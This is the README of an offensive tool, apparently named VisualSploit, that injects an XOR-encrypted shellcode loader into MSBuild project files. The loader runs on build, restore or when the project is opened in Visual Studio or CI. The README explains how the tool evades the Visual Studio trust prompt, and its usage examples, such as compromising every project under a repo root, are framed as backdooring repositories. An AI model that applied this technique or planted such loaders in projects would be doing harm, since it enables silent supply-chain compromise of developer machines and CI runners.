

# VisualSploit

[](https://github.com/Meltedd/VisualSploit/actions/workflows/ci.yml)
[](https://github.com/Meltedd/VisualSploit/releases)
[](LICENSE)

Weaponizes MSBuild project files to run embedded shellcode. Given a `.csproj`, `.vbproj`, or `Directory.Build.props/targets` and a shellcode blob, VisualSploit injects a loader that fires whenever the project is built, restored, or opened in Visual Studio. Cloning a backdoored repo and evaluating it with Visual Studio, `dotnet`, or CI can be enough to run the payload without user interaction.



## How it works

MSBuild lets a project declare an inline task, a chunk of C# that `RoslynCodeTaskFactory` compiles and runs during the build:

```xml
<UsingTask TaskName="Foo" TaskFactory="RoslynCodeTaskFactory" AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.Core.dll">
  <Task>
    <Code Type="Method" Language="cs">
      <![CDATA[
        public override bool Execute() { /* arbitrary C# */ return true; }
      ]]>
    </Code>
  </Task>
</UsingTask>
```

`InitialTargets` on `<Project>` names targets that fire first when MSBuild evaluates the project.

VisualSploit writes a `<UsingTask>` containing a shellcode loader, adds a `<Target>` that invokes it, and appends that target to `InitialTargets`. Any evaluation runs the target, whether `dotnet build`, `dotnet restore`, Visual Studio opening the folder, or an IDE running MSBuild for IntelliSense. Microsoft treats those design-time builds as full execution.

The emitted C# then:

1. Decrypts the embedded payload with XOR.
2. Allocates an RWX page (`VirtualAlloc` on Windows, `mmap` on Linux).
3. Spawns a thread at that page (`CreateThread` on Windows, `pthread_create` on Linux) and waits for it.

Cloned files carry no [MOTW](https://learn.microsoft.com/en-us/windows/win32/secauthz/mark-of-the-web), so Visual Studio's "trust this project?" prompt never fires on `git clone`.

## Targets

| Target file                 | Fires when                                    |
|-----------------------------|-----------------------------------------------|
| `*.csproj` / `*.vbproj`     | The project is opened, restored, or built     |
| `Directory.Build.props`     | Any project in or below its directory is opened, restored, or built |
| `Directory.Build.targets`   | Any project in or below its directory is built |

`Directory.Build.props` and `.targets` are imported implicitly for every project beneath them, so a single injected file at a repo root compromises the whole subtree across developer machines, CI runners, and devcontainers that evaluate MSBuild.

## Usage

```
visualsploit <target> <shellcode> [options]

-o, --output <path>         Output path (default: in-place)
    --no-backup             Skip .bak when writing over an existing file
-r, --rounds <n>            XOR rounds 1-5 (default: 3)
-s, --seed <n>              RNG seed for reproducibility
    --platform <windows|linux>
                            Target platform for emitted loader (default: Windows)
    --shellcode-format <auto|raw|hex>
                            Shellcode input format (default: auto)
    --condition <expr>      MSBuild condition for generated target
-n, --dry-run               Show injected XML without writing files
-v, --verbose               Log injection summary to stderr
    --version               Show version
```

Shellcode can be raw binary or hex. By default, VisualSploit automatically detects hex text, but you can use `--shellcode-format raw` or `--shellcode-format hex` to force parsing. Hex input may include whitespace, commas, and `0x` prefixes. The target is modified in place unless `--output` is passed, leaving a `.bak` of the original alongside.

`--condition` sets the MSBuild `Condition` attribute on the generated target. VisualSploit passes the expression through as written; see Microsoft's [MSBuild conditions](https://learn.microsoft.com/en-us/visualstudio/msbuild/msbuild-conditions) reference for syntax.

Useful gates include:

```text
# Windows hosts
'$(OS)' == 'Windows_NT'

# Unix-like hosts
'$(OS)' == 'Unix'

# Release builds
'$(Configuration)' == 'Release'
```

```bash
# Inject into a single project
visualsploit project.csproj shellcode.bin

# Compromise all projects in the subtree
visualsploit repo/Directory.Build.props shellcode.bin

# Reproducible output
visualsploit repo/Directory.Build.targets shellcode.bin -s 42

# Preview without writing
visualsploit project.csproj shellcode.bin --dry-run

# Emit a Linux loader
visualsploit project.csproj linux-x64-shellcode.bin --platform linux

# Run only for Release builds
visualsploit project.csproj shellcode.bin --condition "'\$(Configuration)' == 'Release'"
```

## Shellcode constraints

- Shellcode must match the selected platform and the MSBuild host architecture. Visual Studio and `dotnet build` are x64 by default on most systems.
- Must be position-independent. The loader spawns a thread at an address the system picks. On x64, Windows thread entry uses the Windows x64 ABI (`RCX` for the argument); Linux uses the System V ABI (`RDI` for the argument).
- The page is mapped executable and writable (`PAGE_EXECUTE_READWRITE` on Windows, `PROT_READ|PROT_WRITE|PROT_EXEC` on Linux), so self-modifying stagers like reflective loaders or metasploit `migrate` run without extra protection flips.
- The Linux loader targets Linux x64 with modern glibc or musl.
- Shellcode must terminate on its own (e.g. msfvenom's `EXITFUNC=thread`). The loader waits on the thread indefinitely and will hang the build otherwise.

## Build

Requires .NET 10 SDK.

```bash
dotnet build -c Release
dotnet test
```

Self-contained binary:

```bash
dotnet publish -c Release -r <rid> --self-contained -p:PublishSingleFile=true
```

## License

MIT.
